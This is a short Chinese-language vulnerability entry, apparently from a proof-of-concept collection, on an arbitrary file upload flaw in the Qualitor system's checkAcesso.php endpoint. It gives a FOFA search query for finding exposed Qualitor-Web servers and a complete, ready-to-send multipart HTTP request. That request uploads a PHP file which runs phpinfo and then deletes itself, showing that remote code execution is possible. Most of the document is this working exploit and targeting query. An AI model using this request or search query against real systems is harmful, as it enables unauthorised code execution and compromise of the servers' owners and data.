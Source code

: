 # Qualitor系统接口checkAcesso.php任意文件上传漏洞

Qualitor系统接口checkAcesso.php任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
app="Qualitor-Web"
```

## poc

```javascript
POST /html/ad/adfilestorage/request/checkAcesso.php HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------QUALITORspaceCVEspace2024space44849

-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="idtipo"

2
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmfilestorage"


-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmdiretoriorede"

.
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmbucket"


-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmaccesskey"


-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="nmkeyid"


-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="fleArquivo"; filename="info.php"

<?php phpinfo();unlink(__FILE__);?>
-----------------------------QUALITORspaceCVEspace2024space44849
Content-Disposition: form-data; name="cdfilestorage"


-----------------------------QUALITORspaceCVEspace2024space44849--
```

![image-20241012131131290](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121311364.png)